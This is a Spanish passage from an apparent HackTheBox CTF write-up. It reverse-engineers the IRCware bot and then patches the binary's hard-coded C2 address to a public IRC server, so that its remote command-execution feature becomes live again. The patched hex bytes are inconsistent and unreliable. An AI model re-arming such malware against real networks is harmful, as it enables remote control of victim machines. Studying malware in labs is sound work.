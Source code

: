 ```
14:35 <@playerRed> @pass ASS3MBLY
14:35 <ircware_0216> Accepted
14:35 <@playerRed> @flag
14:35 < ircware_0216> HTB{m1N1m411st1C_fL4g_pR0v1d3r_b0T}
```

# Activando el malware

IRCware tiene una funcionalidad que permite ejecutar comandos en la máquina que ejecuta el binario, en el CTF no la aproveché porque no era necesaria para obtener la flag pero tiene un gran potencial. En esta guía cambiaré la IP y el puerto destino por un servidor IRC público para que el malware vuelva a ser funcional.

El primer paso es detectar las instrucciones que contienen la dirección del servidor irc. Ya había descubierto en el CTF que la conexión se establece en la función fcn.CONNECT (originalmente fcn.0040028f) asi que comienzo examinando esa función:

```
...
0x004002b8      687f000001	push 0x100007f
0x004002bd      66681f40	push 0x401f
0x004002c1      666a02		push 2                      ; 2
0x004002c4      4889e6		mov rsi, rsp
0x004002c7      ba10000000	mov edx, 0x10               ; 16
0x004002cc      0f05		syscall
0x004002ce      4883c40c	add rsp, 0xc
0x004002d2      c3		ret
```

Mediante “step over” descubro que lanza la conexión en la syscall de 0x004002cc, los argumentos de esta función son 0x401f y 0x100007f que en little endian son 8000(0x1f40) y 127(7f) 0(0x00) 0(0x00) 1(0x01).


Una vez localizadas las instrucciones, puedo parchear el binario para que se conecte a un servidor IRC público. El puerto por defecto es 6665 y localizo un servidor público gratuito que no tiene captcha: “irc.freenode.net”, le hago ping y veo que su IP es “130.185.232.126”. Paso a hexa el puerto y dirección en little endian:

6665 = 0x1A09

130 = 0x82 ; 185 = 0xB9 ; 232 = 0xE8 ; 126 = 0x7E ;  130.185.232.126 = 0x82B9E87E

Entonces las instrucciones:
```
687f000001	push 0x100007f
66681f40	push 0x401f
```

Parcheadas quedarían:
```
6882b9e873	push 0x738e9b28
66681a09	push 0x91a
```
